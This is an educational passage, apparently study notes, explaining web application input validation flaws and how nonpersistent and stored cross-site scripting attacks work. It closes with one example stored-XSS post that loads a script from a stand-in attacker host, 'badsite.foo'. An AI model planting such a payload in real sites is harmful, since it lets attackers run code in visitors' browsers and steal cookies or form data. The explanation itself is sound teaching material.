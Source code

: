 Many network services are now deployed as web applications. The HTTP/HTTPS web protocol is based on servers responding to client requests. A developer can extend the basic protocol with software code and information stored in databases to implement a dynamic web app, rather than simply retuning a static pages and graphics. A web application can use to methods of running code: 
* Server-side code is run on the HTTP/HTTPS web server to process the request and build the response before it is sent to the client.
* Client-side code runs within the web browser software on the client machine to modify the web page before it is displayed to the user or to modify requests made to the server.
Most applications depend on user input. One of the most widespread vulnerabilities in web apps is failure to validate this input properly. For example, the user might need to sign in using an email address and password, So the web app presents two text-box fields for the user to input those values.
if a threat actor can send a script via the username field and make the server or client execute that code, the web app has an input validation vulnerability 

A Cross-site scripting XSS attack exploits the fact that the browser is likely to trust scripts that appear to come from a site that user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A nonpersistent type of XSS attack would proceed as follows: 

1. The attacker identifies an input validation vulnerability 
2. The attacker crafts a URL to perform code injection against the trusted site. This could be coded in a link to the attackers site from the trusted site or a link in a phishing email message.
3. When the user opens the link, the trusted site returns a page containing the malicious code injected by the attacker. As the browser is likely to be configured to allow the site to run scripts, the malicious code will execute.
4. The malicious code could be used to deface the trusted site (by adding any sort of arbitrary HTML code), steal data from the user's cookies, try to intercept information entered in a form, or try to install malware. The crucial point is that the malicious code runs in the clients browser with the same permission level as the trusted site.
This type of XSS attack is nonpersistent because at no point is data on the web server changed. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. The threat actor may submit a post to a bulletin board with a malicious script embedded in the message, for instance. When other users view the message, the malicious script executed. For example, with no input sanitization, a threat actor could type the following into net post text field. 

```
Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.
```

Users viewing the post will have the malicious script hook.js execute in their browser.
